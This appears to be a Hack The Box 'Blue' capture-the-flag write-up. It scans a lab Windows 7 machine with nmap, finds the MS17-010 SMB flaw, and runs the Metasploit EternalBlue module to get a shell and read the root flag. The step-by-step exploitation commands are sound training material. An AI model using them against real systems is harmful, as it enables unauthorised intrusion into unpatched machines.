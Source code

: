 ## Synopsis


## :scroll: TL:DR :scroll:
Get **Privilege Escalation** on a **windows 7 Porfessional 7601 Service Pack 1 computer**.
Therfore find exploit `ms17-010` and run it. 
Take control over the windows computer and find user- en rootflag.
 
## :rocket: Getting started :rocket:
We add the `domain` and `ip` to `/etc/hosts` .
After we spawn a machine we get an ip adress.
![ip](../img/blue_ip.png)
	This ip adress we can add to our `/etc/hosts` file:
```
echo "10.129.231.168 blue.htb" | sudo tee -a /etc/hosts
```
## :scan: Enumeration :scan:
As we start with a `nmap` scan 
```hs
nmap -sV -sC -oA blue blue.htb
```

![port 445 scan](../img/blue_port_445.png)



```sh
nmap --script smb-vuln-ms17-010 -p445 blue.htb
```
![nmap vulnerability scan](../img/blue_nmap_ms17-010.png)
it revails a vulnerability called `ms17-010` in Microsoft `SMBv1` accorring to **CVE-2017-0143**. 
### msfconsole
With `msfconsole` we can search for an exploit.

```sh


## Expliotation


1. type `msfconsole` to start metasploit;
2. `search ms17-010`;
3. `use 0`;
4. `show options` gives the options for configuration;
5. `set RHOSTS blue.htb`
6. `set LHOSTS 10.10....`
7. `expliot`
8. `shell`
9. `whoami`
10. `cd \Users\Administrator\Desktop`
11. `type root.txt`

## :old_key:NOTES:old_key:

### :mortar_board: Lessons learned :mortar_board:
1. How to use `msfconsole`;
2. How to explicit scan with `nmap` for a vulnerability scan;
3. Windows does not support linux syntax :nerd:
